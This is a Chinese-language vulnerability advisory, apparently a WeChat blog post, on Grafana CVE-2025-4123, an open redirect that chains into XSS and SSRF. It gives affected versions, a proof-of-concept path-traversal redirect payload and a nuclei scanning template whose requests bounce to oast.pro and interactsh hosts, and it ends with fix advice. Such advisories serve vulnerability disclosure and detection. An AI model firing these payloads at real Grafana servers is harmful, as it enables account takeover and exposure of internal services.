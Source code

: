 #  【漏洞预警】Grafana未授权跨站点脚本攻击xss和SSRF漏洞（CVE-2025-4123）   
PokerSec  PokerSec   2025-05-26 11:11  
  
**先关注，不迷路.**  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 漏洞介绍  
  
Grafana 是一款开源的跨平台数据可视化与监控分析工具，广泛应用于实时指标展示、日志分析和运维监控领域。  
Grafana 中存在一个跨站脚本 （XSS） 漏洞，该漏洞是由客户端路径遍历和开放重定向相结合引起的。这允许攻击者将用户重定向到托管将执行任意 JavaScript 的前端插件的网站。此漏洞不需要编辑者权限，如果启用了匿名访问，XSS 将正常工作。如果安装了 Grafana Image Renderer 插件，则可以利用 open 重定向来实现完全读取 SSRF。Grafana 中的默认 Content-Security-Policy （CSP） 将通过 'connect-src' 指令阻止 XSS。  
## 漏洞编号  
  
CVE-2025-4123  
## 影响范围  
  
该漏洞影响所有受支持的 Grafana 版本，包括：Grafana 11.2至12.0版本，以及追溯至Grafana 8的所有不受支持汉本。Grafana Cloud 用户不受影响。  
## 漏洞复现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ1d4p6e8nOG3y1FX55e3cnjUqKGibYNFEJFboia4u2myPJtAw7twt0mZo6vPdiaKaPcas1EFnMf7FLA/640?wx_fmt=png&from=appmsg "")  
  
POC:  
  
(这微信页面直接复制代码格式会乱，可以浏览器打开复制)  
```
/public/..%2F%5cbaidu.com%2F%3f%2F..%2F..
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ1d4p6e8nOG3y1FX55e3cngVXjT1wqnAlZ1icne9d7PzFAPIvCv2DNop1jichh0JrXObN3xPGYKHuw/640?wx_fmt=png&from=appmsg "")  
  
## 漏洞分析  
  
Grafana CVE-2025-4123：SSRF 和账户接管漏洞完整解读  
```
https://nightbloodz.github.io/grafana-CVE-2025-4123/
```  
  
  
## nuclei脚本  
```
id: CVE-2025-4123

info:
  name: Grafana-Xss-SSrf-CVE-2025-4123
  author: PokerSec
  severity: high
  description: |
    An open redirect vulnerability in Grafana can be chained with other issues, such as XSS or SSRF, to increase impact. An attacker may exploit the redirect to target internal services or deliver malicious JavaScript, potentially leading to internal data exposure or account takeover.
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:H/A:N
    cvss-score: 7.6
  reference:
    - https://medium.com/@Nightbloodz/grafana-cve-2025-4123-full-read-ssrf-account-takeover-d12abd13cd53
    - https://grafana.com/blog/2025/05/21/grafana-security-release-high-severity-security-fix-for-cve-2025-4123/
  metadata:
    verified: true
    max-request: 1
    shodan-query: product:"Grafana"
    fofa-query: app="Grafana"
  tags: cve,cve2025,grafana,redirect,unauth,oss

http:
  - raw:
      - |
        GET /render/public/..%252f%255C{{interactsh-url}}%252f%253F%252f..%252f.. HTTP/1.1
        Host: {{Hostname}}

      - |
        GET /public/..%2F%5coast.pro%2F%3f%2F..%2F.. HTTP/1.1
        Host: {{Hostname}}

    matchers:
      - type: dsl
        name: open-redirect
        dsl:
          - status_code == 302 && contains(location, '/\\oast.pro/?/../../')

      - type: dsl
        name: ssrf
        dsl:
          - contains(interactsh_protocol, 'dns') && contains(content_type, 'image/png')
```  
##   
## 修复意见  
  
更新  
grafana  
到最新版本：  
https://github.com/grafana/grafana  
  
修复的版本通过对redirectPath进行Clean操作，预先处理了URL重定向路径中的非法操作，避免了由于重定向导致XSS漏洞的触发。  
  
  
如有侵权，请及时联系删除。  
  
  
